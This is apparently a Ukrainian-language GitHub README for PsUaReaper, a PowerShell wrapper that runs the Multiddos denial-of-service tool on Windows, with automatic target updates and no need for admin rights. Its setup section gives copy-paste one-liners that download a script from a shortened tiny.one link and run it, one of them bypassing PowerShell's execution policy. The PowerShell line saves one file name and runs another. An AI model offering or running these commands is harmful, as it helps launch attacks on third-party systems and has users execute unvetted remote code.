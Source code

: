 # PsUaReaper
PowerShell-враппер для запуску Multiddos на Windows. 
- не потребує інсталяції додатковий програм, все необхідне розташовується в C:\UaReaper
- Не потребує адміністративних прав для запуску
- Сумісніть з Windows 7 SP1
- Автоматичне оновлення цілей

Джерела натхнення:
[KarboDuck](https://github.com/KarboDuck)
[ahovdryk](https://github.com/ahovdryk)


## Підготовка:
1. Найлегший шлях для старих систем (Windows 7, 8, 8.1, 10 (до білда 1803):
- Завантажити з офіційного репозиторію останню версію [PowerShell](https://github.com/PowerShell/PowerShell/releases/download/v7.2.4/PowerShell-7.2.4-win-x86.zip)
- Розпакувати архів в будь який каталог і запустити з нього <code>pwsh.exe</code>
- Виконати команду:
```
(new-object System.Net.WebClient).DownloadFile("https://tiny.one/jxr7yadn", "$env:tmp\setup.ps1"); &"$env:tmp\Setup1.ps1";ri "$env:tmp\Setup.ps1"
```
2. Windows 10 1803 і новіше:
1. Натиснути Win+R
2. Набрати <code>cmd</code> і натиснути Enter
3. Скопіювати команду і вставити у вікно cmd, натиснути Enter
```
curl https://tiny.one/jxr7yadn -o setup.ps1 && powershell -executionpolicy bypass -file setup.ps1 && del setup.ps1
```
